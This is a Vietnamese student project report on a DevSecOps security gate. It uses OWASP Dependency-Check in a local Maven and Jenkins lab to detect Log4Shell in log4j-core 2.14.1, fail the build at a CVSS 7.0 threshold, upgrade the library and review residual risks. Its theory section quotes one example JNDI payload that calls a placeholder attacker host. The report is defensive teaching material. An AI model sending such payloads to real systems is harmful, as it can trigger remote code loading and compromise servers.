

<!-- 
Ghi chú định dạng báo cáo Word:
- Font: Times New Roman 13
- Dãn dòng: 1.5
- Lề trên: 2 cm
- Lề dưới: 2 cm
- Lề trái: 3 cm
- Lề phải: 2 cm
-->

[Bìa theo mẫu 01-BCBTL]

## Lời cảm ơn

Trong quá trình thực hiện và hoàn thành đồ án này, em xin gửi lời cảm ơn chân thành đến giảng viên hướng dẫn đã tận tình chỉ bảo, định hướng và cung cấp những kiến thức quý báu về lĩnh vực An toàn thông tin nói chung và DevSecOps nói riêng. Những lời khuyên của thầy đã giúp em định hình được phương pháp nghiên cứu, giải quyết nhiều khó khăn trong quá trình cấu hình môi trường và triển khai mô hình thực tế. Bên cạnh đó, em cũng xin gửi lời cảm ơn đến các bộ môn trong khoa đã tạo điều kiện thuận lợi về mặt học thuật và cơ sở vật chất để em có thể hoàn thành tốt đề tài. 

Em cũng xin cảm ơn cộng đồng mã nguồn mở, đặc biệt là tổ chức OWASP và NIST đã cung cấp các tài liệu, tiêu chuẩn bảo mật và công cụ hữu ích, giúp em có nguồn tài nguyên để nghiên cứu và hoàn thiện đồ án. Mặc dù đã nỗ lực, nhưng do giới hạn về thời gian và kinh nghiệm, đồ án không tránh khỏi những thiếu sót. Em rất mong nhận được sự góp ý từ thầy cô để đồ án được hoàn thiện hơn.

## Danh mục từ viết tắt

| Từ viết tắt | Giải nghĩa |
| :--- | :--- |
| API | Application Programming Interface (Giao diện lập trình ứng dụng) |
| CD | Continuous Delivery / Continuous Deployment (Phân phối/Triển khai liên tục) |
| CI | Continuous Integration (Tích hợp liên tục) |
| CPE | Common Platform Enumeration (Chuẩn liệt kê nền tảng chung) |
| CVE | Common Vulnerabilities and Exposures (Lỗ hổng và Phơi nhiễm chung) |
| CVSS | Common Vulnerability Scoring System (Hệ thống chấm điểm lỗ hổng chung) |
| DAST | Dynamic Application Security Testing (Kiểm thử bảo mật ứng dụng động) |
| JNDI | Java Naming and Directory Interface (Giao diện thư mục và đặt tên Java) |
| LDAP | Lightweight Directory Access Protocol (Giao thức truy cập thư mục) |
| NIST | National Institute of Standards and Technology (Viện Tiêu chuẩn và Công nghệ Quốc gia Mỹ) |
| NVD | National Vulnerability Database (Cơ sở dữ liệu lỗ hổng quốc gia) |
| OWASP | Open Worldwide Application Security Project (Dự án bảo mật ứng dụng mở toàn cầu) |
| SAST | Static Application Security Testing (Kiểm thử bảo mật ứng dụng tĩnh) |
| SCA | Software Composition Analysis (Phân tích thành phần phần mềm) |
| SDLC | Software Development Life Cycle (Vòng đời phát triển phần mềm) |

## Danh mục bảng biểu

- Bảng 1.1: So sánh đặc điểm của DevOps và DevSecOps
- Bảng 1.2: Phân tích so sánh SAST, DAST và SCA
- Bảng 1.3: Các nghiên cứu liên quan
- Bảng 2.1: Vai trò của các thành phần trong mô hình Lab
- Bảng 4.1: Kết quả quét phân tích mã nguồn trước và sau khi khắc phục

## Mục lục

1. Lời cảm ơn
2. Danh mục từ viết tắt
3. Danh mục bảng biểu
4. Phần mở đầu
5. Chương 1: Cơ sở lý thuyết
   1.1. Tổng quan về DevSecOps
   1.2. Software Composition Analysis (SCA)
   1.3. Hệ thống đánh giá lỗ hổng
   1.4. Lỗ hổng Log4Shell
   1.5. Các nghiên cứu liên quan
6. Chương 2: Mô hình triển khai và xây dựng môi trường Lab
   2.1. Yêu cầu và thành phần môi trường
   2.2. Vai trò của từng thành phần
   2.3. Cấu trúc thư mục dự án
   2.4. Sơ đồ kiến trúc Lab
7. Chương 3: Kịch bản thực nghiệm
   3.1. Thiết lập môi trường
   3.2. Kiểm thử
   3.3. Phòng thủ
   3.4. Kiểm tra lại
8. Chương 4: Kết quả đạt được và biện pháp phòng chống
   4.1. Phân tích kết quả đạt được
   4.2. Giải pháp và biện pháp phòng chống
   4.3. Đánh giá khả năng áp dụng trong doanh nghiệp
9. Kết luận
10. Phụ lục
11. Tài liệu tham khảo

---

# TÊN ĐỀ TÀI

Mô phỏng Security Gate trong quy trình DevSecOps sử dụng OWASP Dependency Check nhằm phát hiện và giảm thiểu lỗ hổng mã nguồn mở

# PHẦN MỞ ĐẦU

### Lý do chọn đề tài
Sự phát triển của các phần mềm và dịch vụ công nghệ hiện nay phụ thuộc lớn vào các thư viện mã nguồn mở. Các lập trình viên thường tái sử dụng các gói thư viện có sẵn nhằm tối ưu tốc độ phát triển dự án. Tuy nhiên, việc này mang lại rủi ro tiềm ẩn: các thư viện mã nguồn mở có thể chứa lỗ hổng bảo mật. Những cuộc tấn công chuỗi cung ứng gần đây cho thấy việc rà soát an toàn thông tin không thể chỉ được thực hiện ở khâu kiểm thử thủ công trước khi triển khai, mà cần được tự động hóa và tích hợp vào vòng đời phát triển phần mềm. Chính vì vậy, đề tài được chọn làm hướng nghiên cứu nhằm tự động hóa quy trình quản lý rủi ro phần phụ thuộc.

### Tính cấp thiết
Phần lớn mã nguồn của một ứng dụng hiện đại được tạo thành từ các thư viện nguồn mở. Các lỗ hổng bắt nguồn từ các thành phần bên thứ ba này là nguyên nhân của nhiều sự cố rò rỉ dữ liệu. Khi lỗ hổng Log4Shell (CVE-2021-44228) được công bố, nhiều tổ chức gặp khó khăn trong việc xác định xem hệ thống của họ có sử dụng thư viện bị ảnh hưởng hay không. Điều này cho thấy việc triển khai một công cụ phân tích thành phần phần mềm (SCA) tự động là rất cần thiết, đóng vai trò ngăn chặn việc triển khai các đoạn mã có lỗ hổng trong quá trình CI/CD.

### Mục tiêu nghiên cứu
Mục tiêu cốt lõi của đề tài là xây dựng cấu hình quy trình DevSecOps tích hợp công cụ SCA (OWASP Dependency-Check). Các mục tiêu cụ thể bao gồm:
1. Phát hiện tự động các lỗ hổng đã biết trong các thư viện phụ thuộc (tập trung vào lỗ hổng Log4Shell).
2. Thiết lập cơ chế Security Gate tự động ngắt quy trình build nếu mức độ rủi ro (điểm CVSS) vượt quá ngưỡng cho phép.
3. Trình bày quy trình khắc phục sự cố (remediation) và nhận diện các rủi ro còn sót lại (Residual Risk).

### Đóng góp của đề tài
Đề tài xây dựng một mô hình DevSecOps thu gọn trên môi trường Lab Windows, tích hợp cơ chế Security Gate dựa trên ngưỡng CVSS, đồng thời minh họa quy trình remediation đối với lỗ hổng Log4Shell và đánh giá residual risks sau khi vá lỗi.

### Đối tượng nghiên cứu
Đối tượng nghiên cứu chính bao gồm:
- Mô hình kiến trúc của phương pháp luận DevSecOps.
- Cơ chế hoạt động của lỗ hổng bảo mật trong thư viện mã nguồn mở (Log4Shell - CVE-2021-44228). Đề tài không tập trung vào khai thác thực thi mã từ xa thông qua JNDI, mà tập trung vào phát hiện dependency chứa lỗ hổng bằng phương pháp SCA.
- Phương thức vận hành của công cụ phân tích thành phần phần mềm (SCA).

### Phạm vi nghiên cứu
Đề tài giới hạn phạm vi nghiên cứu thực nghiệm trên môi trường Lab cục bộ hệ điều hành Windows. Hệ thống thực nghiệm áp dụng trên ứng dụng web Java Spring Boot, sử dụng công cụ quản lý dự án Maven, hệ thống dòng lệnh PowerShell và máy chủ Jenkins cục bộ để tự động hóa quy trình kiểm thử. Không mở rộng trên các hệ thống container phân tán đám mây.

### Phương pháp nghiên cứu
Đề tài sử dụng hai phương pháp chính:
- **Phương pháp nghiên cứu lý thuyết:** Phân tích tài liệu học thuật, tiêu chuẩn từ NIST, tài liệu từ OWASP để xây dựng nền tảng lý thuyết về CI/CD và SCA.
- **Phương pháp thực nghiệm kỹ thuật:** Xây dựng dự án mẫu `devsecops-sca-demo`. Tiến hành chạy kịch bản kiểm thử các thành phần phần mềm có chứa lỗ hổng đã được công bố công khai, xuất báo cáo, thực hiện nâng cấp bản vá và đánh giá lại hệ thống.

### Bố cục báo cáo
Báo cáo được cấu trúc thành 4 chương chính:
- **Chương 1:** Trình bày cơ sở lý thuyết về DevSecOps, SCA, hệ thống đánh giá lỗ hổng và lỗ hổng Log4Shell.
- **Chương 2:** Mô tả mô hình triển khai và thiết lập môi trường Lab.
- **Chương 3:** Trình bày kịch bản thực nghiệm từ lúc thiết lập, kiểm thử bản vulnerable, áp dụng phòng thủ, và kiểm thử lại bản fixed.
- **Chương 4:** Phân tích kết quả đạt được, đưa ra biện pháp phòng chống và đánh giá khả năng áp dụng trong doanh nghiệp.

---

# CHƯƠNG 1: CƠ SỞ LÝ THUYẾT

## 1.1 Tổng quan về DevSecOps

### 1.1.1 DevOps
DevOps là sự kết hợp của các nguyên lý, quy trình thực hành và công cụ tự động hóa nhằm tăng tốc độ cung cấp ứng dụng. Việc này phá bỏ khoảng cách giữa bộ phận phát triển (Development) và bộ phận vận hành (Operations). Thông qua Cơ sở hạ tầng dưới dạng mã (Infrastructure as Code) và kiểm thử tự động, DevOps giúp các tổ chức phát hành phần mềm nhanh chóng và linh hoạt hơn.

### 1.1.2 DevSecOps
DevSecOps mở rộng từ DevOps, đưa yếu tố bảo mật (Security) vào cốt lõi của quy trình phát triển dựa trên nguyên lý "Shift-left security". Điều này có nghĩa là các đánh giá bảo mật được thực hiện từ những giai đoạn đầu tiên thay vì là một công đoạn ở cuối vòng đời. Việc này đảm bảo hệ thống có thể triển khai nhanh chóng đồng thời duy trì mức độ an toàn thông tin cần thiết.

**Bảng 1.1: So sánh đặc điểm của DevOps và DevSecOps**

| Tiêu chí | DevOps | DevSecOps |
| :--- | :--- | :--- |
| **Mục tiêu cốt lõi** | Tối ưu tốc độ và sự ổn định của việc phát hành | Tốc độ, sự ổn định đi kèm với an toàn thông tin |
| **Trách nhiệm bảo mật** | Thường thuộc về bộ phận bảo mật đánh giá ở cuối quy trình | Trách nhiệm chung của cả ba bộ phận (Dev, Sec, Ops) |
| **Kiểm thử tự động** | Tập trung vào Unit Test, Integration Test | Tích hợp thêm SAST, DAST, SCA vào đường ống CI/CD |
| **Xử lý sự cố** | Khắc phục lỗi logic hoặc cấu hình hệ thống | Tự động phát hiện lỗi CVE và chặn triển khai mã nguy hiểm |

### 1.1.3 CI/CD
CI/CD (Continuous Integration / Continuous Delivery) là nền tảng kỹ thuật của DevSecOps. 
- **Continuous Integration (CI):** Tích hợp liên tục nhằm tự động hóa khâu build và test mã nguồn mỗi khi lập trình viên cập nhật mã mới.
- **Continuous Delivery (CD):** Phân phối liên tục tự động hóa việc đưa mã nguồn đã build lên các môi trường Staging/Production.

### 1.1.4 Security Gate
Security Gate đóng vai trò như một điểm kiểm tra tự động (Quality & Security Checkpoint) trong pipeline CI/CD. Nó bao gồm các quy tắc kiểm tra kết quả bảo mật. Nếu kết quả quét trả về tồn tại lỗ hổng vượt quá điểm CVSS cho phép, Security Gate sẽ làm quy trình build thất bại (FAIL). Cơ chế này giúp ngăn chặn các thành phần rủi ro tiếp cận môi trường sản xuất.

## 1.2 Software Composition Analysis (SCA)

### 1.2.1 Khái niệm SCA
Software Composition Analysis (SCA) là quy trình tự động phân tích và xác định các thành phần mã nguồn mở trong một phần mềm. SCA tập trung vào việc:
- Phát hiện các lỗ hổng bảo mật đã công bố (CVE) trong phiên bản thư viện.
- Kiểm tra sự tuân thủ giấy phép nguồn mở (License compliance).
- Đánh giá trạng thái vòng đời của thư viện.
SCA đặc biệt hiệu quả trong việc rà soát "Phụ thuộc bắc cầu" (Transitive Dependencies) mà lập trình viên khó kiểm soát thủ công.

### 1.2.2 Quy trình hoạt động của SCA
Công cụ SCA cơ bản hoạt động theo các bước sau:
1. **Parsing:** Công cụ quét các tệp định nghĩa gói của dự án (như `pom.xml`, `package.json`).
2. **Extraction:** Thu thập danh sách các thành phần bao gồm tên thư viện và phiên bản.
3. **Fingerprinting:** Tạo mã băm (Hash) cho các tệp `.jar` để xác định chính xác thư viện đang sử dụng.
4. **Matching:** Đối chiếu danh sách thu thập với cơ sở dữ liệu lỗ hổng toàn cầu (chủ yếu là NVD).
5. **Reporting:** Xuất báo cáo rủi ro chi tiết kèm hướng dẫn nâng cấp.

### 1.2.3 So sánh SAST, DAST và SCA

**Bảng 1.2: Phân tích so sánh SAST, DAST và SCA**

| Tiêu chí | SAST (Static) | DAST (Dynamic) | SCA (Composition) |
| :--- | :--- | :--- | :--- |
| **Mục đích** | Phân tích lỗi logic trong mã nguồn tự viết. | Tìm lỗ hổng bằng cách tấn công ứng dụng đang chạy. | Phát hiện lỗ hổng đã biết trong các thư viện bên thứ 3. |
| **Thời điểm chạy** | Giai đoạn Build/CI. | Giai đoạn QA/Staging. | Giai đoạn CI. |
| **Ưu điểm** | Tìm lỗi sớm, xác định dòng code gây lỗi. | Phát hiện lỗi cấu hình và logic runtime. | Nhanh, chính xác với mã CVE, phù hợp cho Security Gate. |

### 1.2.4 OWASP Dependency Check
OWASP Dependency-Check (ODC) là công cụ SCA mã nguồn mở. Nó quét các thư viện dự án, tạo định danh chuẩn CPE và đối chiếu với NVD để tìm kiếm CVE. ODC được tích hợp dưới dạng plugin cho Maven, Gradle và hỗ trợ tích hợp với Jenkins trong CI/CD.

## 1.3 Hệ thống đánh giá lỗ hổng

Hệ thống quản lý và đánh giá lỗ hổng toàn cầu dựa trên ba nền tảng chuẩn hóa quốc tế:
- **CVE (Common Vulnerabilities and Exposures):** Hệ thống định dạng tiêu chuẩn do MITRE duy trì, cung cấp danh tính duy nhất (ví dụ: CVE-2021-44228) để các tổ chức và phần mềm bảo mật dễ dàng tham chiếu.
- **CVSS (Common Vulnerability Scoring System):** Cung cấp phương pháp tiêu chuẩn để đánh giá mức độ nghiêm trọng của lỗ hổng với thang điểm từ 0.0 đến 10.0. Điểm CVSS được tính dựa trên nhiều nhóm chỉ số Cơ sở (Base) như Attack Vector (AV), Attack Complexity (AC), và Privileges Required (PR).
- **NVD (National Vulnerability Database):** Cơ sở dữ liệu quốc gia của Hoa Kỳ do viện NIST quản lý. NVD đồng bộ với các mã CVE, bổ sung phân tích điểm CVSS và danh sách phần mềm bị ảnh hưởng. Việc truy xuất NVD thường thông qua NVD API để tự động hóa cập nhật dữ liệu cho các công cụ bảo mật.

## 1.4 Lỗ hổng Log4Shell

### 1.4.1 Giới thiệu về Log4Shell
Log4Shell (CVE-2021-44228) là lỗ hổng trong thư viện ghi log Log4j 2 của Apache. Lỗ hổng có mức điểm CVSS tối đa là 10.0, ảnh hưởng đến số lượng lớn các ứng dụng sử dụng Java.

### 1.4.2 Nguyên nhân và cơ chế JNDI
Lỗ hổng bắt nguồn từ tính năng "Message Lookup Substitution" của Log4j, cho phép tự động diễn giải các biến cấu hình trong log.
Lỗ hổng lợi dụng giao diện JNDI (Java Naming and Directory Interface):
1. **Gửi chuỗi:** Kẻ tấn công gửi một chuỗi có định dạng JNDI, ví dụ: `${jndi:ldap://attacker.com/Exploit}` vào ứng dụng mục tiêu.
2. **Kích hoạt:** Ứng dụng gọi hàm ghi log. Log4j phân tích chuỗi và nhận diện tiền tố `${jndi:ldap:`.
3. **Thực thi truy vấn:** Log4j sử dụng LDAP truy vấn đến máy chủ của kẻ tấn công theo yêu cầu JNDI và có thể tải xuống/thực thi mã độc hại.

## 1.5 Các nghiên cứu liên quan

Vấn đề bảo mật chuỗi cung ứng phần mềm và lỗ hổng nguồn mở đã được nhiều đơn vị nghiên cứu trên thế giới quan tâm. Một số nghiên cứu nổi bật được liệt kê dưới đây:

**Bảng 1.3: Các nghiên cứu liên quan**

| Công trình | Công cụ | Điểm mạnh | Hạn chế |
| :--- | :--- | :--- | :--- |
| Tích hợp SCA trong CI/CD (OWASP, 2022) | Dependency-Check | Đưa ra quy trình và tài liệu mẫu chi tiết | Thiếu thực nghiệm đánh giá rủi ro còn sót lại (Residual Risk) trên môi trường Lab cục bộ |
| Đánh giá lỗ hổng Log4Shell (Check Point, 2021) | Công cụ Network Scanner | Phân tích sâu sắc về cơ chế lây nhiễm JNDI | Không đi sâu vào quy trình tự động ngăn chặn lỗ hổng từ khâu Build mã nguồn |
| Quản lý rủi ro chuỗi cung ứng (Sonatype, 2023) | Sonatype Nexus | Báo cáo xu hướng tiêu thụ thư viện mã nguồn mở có quy mô rộng | Đa số sử dụng các công cụ thương mại độc quyền, khó áp dụng cho mô hình nghiên cứu sinh viên |

---

# CHƯƠNG 2: MÔ HÌNH TRIỂN KHAI VÀ XÂY DỰNG MÔI TRƯỜNG LAB

Mô hình triển khai của đề tài (`devsecops-sca-demo`) được thực hiện trên môi trường máy tính cục bộ (Local Environment). Đề tài chạy trực tiếp trên máy vật lý, không sử dụng nền tảng máy ảo hay công cụ container Docker nhằm đảm bảo việc thực thi kịch bản đơn giản và tập trung vào cơ chế phân tích tĩnh của mã nguồn.

### 2.1 Yêu cầu và thành phần môi trường
Hệ thống thử nghiệm được cấu hình với các thông số:
- **Hệ điều hành:** Máy vật lý chạy Windows 11.
- **Môi trường dòng lệnh:** PowerShell 7.
- **Runtime:** Java 22 (JDK 22).
- **Quản lý dự án:** Maven 3.9.
- **Framework ứng dụng:** Spring Boot phiên bản 3.3.5.
- **Công cụ kiểm thử SCA:** OWASP Dependency-Check phiên bản 12.1.0.

Đề tài triển khai Jenkins Server trên môi trường Windows 11 cục bộ và sử dụng Jenkinsfile theo mô hình Pipeline as Code để tự động hóa quá trình build, quét SCA và lưu trữ báo cáo. Quá trình thực nghiệm được thực hiện trực tiếp thông qua Jenkins Pipeline nhằm đánh giá khả năng hoạt động của Security Gate trong quy trình DevSecOps. Trong quá trình thực nghiệm, hệ thống đã đồng bộ dữ liệu CVE từ NVD API và sinh báo cáo OWASP Dependency-Check dưới dạng HTML.

### 2.2 Vai trò của từng thành phần
Các thành phần trong mô hình Lab phối hợp với nhau theo bảng vai trò dưới đây:

**Bảng 2.1: Vai trò của các thành phần trong mô hình Lab**

| Thành phần | Vai trò |
| :--- | :--- |
| Windows 11 | Hệ điều hành Lab |
| Java 22 | Runtime môi trường thực thi |
| Maven 3.9 | Quản lý dependency và vòng đời dự án |
| PowerShell | Môi trường shell thực thi lệnh |
| Dependency Check | Công cụ phân tích SCA |
| Jenkins Server | Máy chủ tự động hóa quy trình CI/CD |

Trong đó, Maven đóng vai trò kết nối, đọc tệp `pom.xml`, tải dependency và kích hoạt công cụ Dependency-Check. Công cụ này tải bộ dữ liệu lỗ hổng từ NVD, so sánh băm mã nguồn và đưa ra quyết định ngừng build nếu phát hiện lỗ hổng vượt ngưỡng.

### 2.3 Cấu trúc thư mục dự án
Dự án được tổ chức theo cấu trúc sau:
- `pom.xml`: Khai báo các thành phần Spring Boot, Log4j và cấu hình Plugin OWASP Dependency-Check với tham số `<failBuildOnCVSS>7.0</failBuildOnCVSS>` để định nghĩa Security Gate.
- `Jenkinsfile`: Khai báo các giai đoạn (Stage) theo dạng mã mô phỏng quy trình: Checkout -> Build -> Quét SCA -> Kiểm tra Security Gate -> Lưu Báo cáo.
- `scripts/`: Chứa các lệnh tự động PowerShell (`scan-vulnerable.ps1`, `scan-fixed.ps1`) để thực thi quá trình kiểm thử.
- `reports/`: Phân vùng lưu trữ báo cáo định dạng HTML chứa kết quả quét rủi ro.
- `docs/`: Tài liệu báo cáo thiết kế đồ án.

### 2.4 Sơ đồ kiến trúc Lab
Sơ đồ hệ thống thể hiện luồng làm việc tuyến tính của các thành phần trong môi trường:

*[Hình 2.1 Mô hình Lab và Luồng Tích hợp]*

---

# CHƯƠNG 3: KỊCH BẢN THỰC NGHIỆM

Quá trình thực nghiệm được triển khai theo bốn bước tuần tự nhằm đánh giá khả năng phát hiện và giảm thiểu lỗ hổng của quy trình DevSecOps tích hợp SCA. Đề tài tập trung vào việc đánh giá hiệu quả của Security Gate.

### 3.1 Thiết lập môi trường (Bước 1)
Bước khởi đầu là định hình cấu trúc phần mềm cần thiết trên máy Windows 11. 
- **Cài đặt và thiết lập:** Giải nén JDK 22 và Maven 3.9. Đường dẫn thư mục cài đặt được cấu hình cho `JAVA_HOME` và `M2_HOME`.
- **Tích hợp API Key:** `NVD_API_KEY` được khai báo trong biến môi trường của hệ điều hành để có thể sử dụng từ PowerShell. Khóa này giúp giảm giới hạn tốc độ truy vấn của NVD API và rút ngắn thời gian đồng bộ cơ sở dữ liệu lỗ hổng.
- **Kiểm tra trạng thái:** Thông qua PowerShell (`java -version` và `mvn -version`), người thực thi đảm bảo bộ máy đã sẵn sàng nhận lệnh biên dịch mã nguồn.

*[Hình 3.1 Kiểm tra trạng thái môi trường hệ thống]*

### 3.2 Kiểm thử (Bước 2)
Giai đoạn mô phỏng việc tích hợp một ứng dụng chứa thư viện có lỗ hổng.
- **Thực thi:** Tập lệnh `scan-vulnerable.ps1` được khởi chạy, chỉ thị cho Maven thực hiện quá trình `clean` và `verify`.
- **Phân tích:** Dự án trong `pom.xml` trỏ đến `log4j-core` phiên bản `2.14.1`. Dependency-Check tạo mã băm thư viện và truy vấn cơ sở dữ liệu NVD.
- **Security Gate:** Công cụ nhận diện lỗ hổng Log4Shell (CVE-2021-44228) với mức điểm CVSS 10.0. Do quy định tại Security Gate (`failBuildOnCVSS` = 7.0), tiến trình build bị dừng và Maven trả về thông báo *"One or more dependencies were identified with vulnerabilities that have a CVSS score greater than or equal to '7.0'"* cùng trạng thái **BUILD FAILURE**, ngăn chặn việc tạo tệp thực thi.

*[Hình 3.2 Báo cáo OWASP Dependency-Check trước khi fix lỗi (Before-fix)]*

### 3.3 Phòng thủ (Bước 3)
Tiến trình khắc phục (remediation) được tiến hành sau khi phát hiện lỗ hổng.
- **Nâng cấp phiên bản:** Lập trình viên mở tập tin `pom.xml`. Tại thẻ `<dependencyManagement>`, phiên bản `2.14.1` được ghi đè bằng phiên bản `2.24.3`. 
- **Lý do chọn phiên bản:** Mặc dù phiên bản `2.17.2` đã khắc phục hoàn toàn Log4Shell, nhóm lựa chọn phiên bản `2.24.3` (ổn định mới nhất tại thời điểm thực nghiệm) nhằm đồng thời khắc phục triệt để Log4Shell và các CVE khác phát sinh sau đó.
- **Bảo toàn cơ chế tự động:** Tham số của Security Gate (mức 7.0) được giữ nguyên để giám sát các lần quét tiếp theo.

*[Hình 3.3 Khai báo phiên bản nâng cấp trên mã nguồn]*

### 3.4 Kiểm tra lại (Bước 4)
Để đánh giá hiệu quả quá trình khắc phục, hệ thống chạy lại chu trình quét.
- **Thực thi bản vá:** Lệnh `scan-fixed.ps1` được gọi, Maven tải xuống tệp thư viện phiên bản 2.24.3 và Dependency-Check lặp lại quá trình phân tích.
- **Nhận định kết quả:** Màn hình Console hiển thị tiến trình build bị dừng và Maven trả về trạng thái **BUILD FAILURE**.
- **Lý giải kỹ thuật:** Cảnh báo CVE-2021-44228 liên quan đến `log4j-core` đã hoàn toàn được loại bỏ. Tuy nhiên, các cảnh báo còn lại xuất hiện trên những thư viện nền tảng của hệ sinh thái Spring Boot. Một số cảnh báo này có thể xuất phát từ cơ chế ánh xạ CPE (Common Platform Enumeration) của Dependency-Check, dẫn đến hiện tượng **False Positive** (cảnh báo giả). Việc xác minh độ chính xác của các rủi ro này cần được thực hiện thủ công dựa trên Spring Security Advisories và GitHub Security Advisory.

*[Hình 3.4 Báo cáo phân tích rủi ro còn sót lại (After-fix)]*

---

# CHƯƠNG 4: KẾT QUẢ ĐẠT ĐƯỢC VÀ BIỆN PHÁP PHÒNG CHỐNG

### 4.1 Phân tích kết quả đạt được
Qua hai lần quét thực nghiệm, công cụ SCA đã sinh ra báo cáo HTML cung cấp thông tin kiểm định rủi ro rõ ràng.

**Bảng 4.1: Kết quả quét phân tích mã nguồn trước và sau khi khắc phục**

| Chỉ số / Đặc điểm | Lần quét trước (Before-Fix) | Lần quét sau (After-Fix) |
| :--- | :--- | :--- |
| **Dung lượng tệp Báo cáo** | 971.4 KB | 724.8 KB |
| **Trạng thái Build (CI)** | FAIL | FAIL |
| **Tình trạng lỗ hổng Log4j** | Phát hiện CVE-2021-44228 (CVSS 10.0) | Đã được xử lý |
| **Thành phần phân tích** | `log4j-core-2.14.1.jar` | Các thành phần lõi Spring Boot |

**Giải thích kết quả:**
- **Dung lượng báo cáo:** Dung lượng giảm từ 971.4 KB xuống 724.8 KB. Điều này cho thấy khi gỡ bỏ phiên bản `log4j-core 2.14.1`, nhiều cảnh báo liên đới (transitive warnings) thuộc phiên bản cũ cũng đã được loại bỏ.
- **Tình trạng lỗ hổng Log4Shell:** Ở trạng thái kiểm tra sau khắc phục, cơ sở dữ liệu không còn phát hiện lỗ hổng CVE-2021-44228 do ứng dụng sử dụng phiên bản 2.24.3.
- **Tình trạng Build FAIL:** Trạng thái hệ thống tiếp tục trả về thông báo lỗi với ngưỡng CVSS > 7.0 phản ánh việc nền tảng Framework (Spring Boot 3.3.5) vẫn mang theo các Residual Risks (hoặc do False Positive). Điều này chứng minh rằng Security Gate đã cấu hình hoạt động đúng đắn theo giới hạn điểm số.

### 4.2 Giải pháp và biện pháp phòng chống
Để duy trì an toàn trước các nguy cơ tấn công từ chuỗi cung ứng mã nguồn mở, cần áp dụng các biện pháp:
- **Thiết lập Security Gate:** Duy trì cơ chế tự động ngắt tiến trình triển khai nếu tồn tại thư viện có CVSS từ 7.0 trở lên.
- **Quét định kỳ:** Hệ thống SCA không chỉ chạy khi có mã thay đổi, mà cần lịch quét toàn diện tự động để phát hiện các lỗ hổng mới cập nhật vào dữ liệu NVD.
- **Chiến lược cập nhật Dependency:** Xây dựng quy trình theo dõi release notes của các framework. Nâng cấp ứng dụng lên các phiên bản ổn định mới hơn.
- **Sử dụng tệp Suppression:** Khai báo cấu hình loại trừ (False Positives) hợp lý để tránh gián đoạn tiến trình tích hợp phần mềm mà vẫn duy trì khả năng cảnh báo đúng mục tiêu.
- **Theo dõi thông tin an toàn:** Theo dõi các thông báo bảo mật từ NVD, MITRE và GitHub Security Advisory.

### 4.3 Đánh giá khả năng áp dụng trong doanh nghiệp
Đối với các doanh nghiệp phát triển phần mềm sử dụng Spring Boot, việc tích hợp công cụ SCA vào quy trình CI/CD hỗ trợ phát hiện sớm thư viện lỗi thời. Quá trình phát triển các ứng dụng doanh nghiệp hiện đại thường bao gồm hàng trăm package phụ thuộc đan xen. Khi số lượng dependency gia tăng, việc kiểm tra thủ công sự tồn tại của các lỗ hổng trong chuỗi cung ứng là điều gần như không khả thi. 

Hệ thống SCA thông qua cơ chế tự động đối chiếu với cơ sở dữ liệu NVD cho phép cảnh báo các rủi ro ngay tại giai đoạn phát triển đầu tiên. Thông qua việc thiết lập Security Gate, tổ chức có thể thực thi chính sách quản trị rủi ro ở quy mô tự động. Chốt chặn này giúp giảm thiểu rủi ro triển khai các thành phần chứa CVE nghiêm trọng lên môi trường Production, bảo vệ an toàn cho hệ thống và tiết kiệm chi phí khắc phục.

---

# KẾT LUẬN

### Đánh giá tính khả thi
Mô hình tự động hóa DevSecOps tích hợp công cụ Software Composition Analysis (SCA) chứng minh được khả năng triển khai linh hoạt vào quy trình phát triển Agile. Việc thiết lập hệ thống giám sát dựa trên công cụ có sẵn giúp các lập trình viên dễ dàng phát hiện sớm rủi ro, áp dụng khắc phục ngay trên môi trường phát triển (local) và duy trì sự an toàn trong suốt quá trình xây dựng mã nguồn.

### Bài học kinh nghiệm
- Việc sử dụng mã nguồn bên thứ ba thiếu giám sát là rủi ro lớn trong chuỗi cung ứng phần mềm.
- Các báo cáo phân tích tự động cần được rà soát để loại bỏ cảnh báo giả (False Positive). Đội ngũ an toàn thông tin cần hiểu rõ kiến trúc dự án để quyết định loại trừ hợp lý.
- Việc sử dụng tập dữ liệu API từ NVD đồng bộ với công cụ build như Maven tạo ra cơ chế rà soát bảo mật tự động có độ tin cậy cao.

### Những mặt hạn chế
- Quá trình phân tích phụ thuộc vào việc tải xuống khối lượng dữ liệu từ NVD. Trong quá trình đồng bộ dữ liệu lỗ hổng từ NVD API, hệ thống ghi nhận hiện tượng retry nhiều lần do độ trễ mạng hoặc giới hạn tốc độ phản hồi từ máy chủ NVD. Điều này làm tăng đáng kể thời gian thực thi pipeline, đặc biệt trong các lần cập nhật dữ liệu lớn (incremental update).
- Nếu không có chính sách cấu hình ngưỡng Security Gate linh hoạt, tiến trình build có thể gặp sự cố FAIL liên tục do các lỗ hổng phụ hoặc do False Positive, gây trở ngại cho tiến độ triển khai sản phẩm.

### Định hướng phát triển tương lai
- Ứng dụng mô hình cấu hình hiện tại lên các hệ thống CI/CD đám mây như Jenkins Server thực tế hoặc GitHub Actions để đánh giá quy trình trong môi trường phân tán.
- Áp dụng các kỹ thuật đóng gói và quét hình ảnh tự động trên nền tảng Docker Container nhằm duy trì môi trường nhất quán.
- Kết hợp với công cụ quét cấu trúc OS hoặc Container như Trivy để bao quát bảo mật đa lớp.
- Xây dựng hệ thống Security Dashboard thống kê chỉ số bảo mật mã nguồn bằng cách tích hợp kết quả SCA vào OWASP Dependency Track.

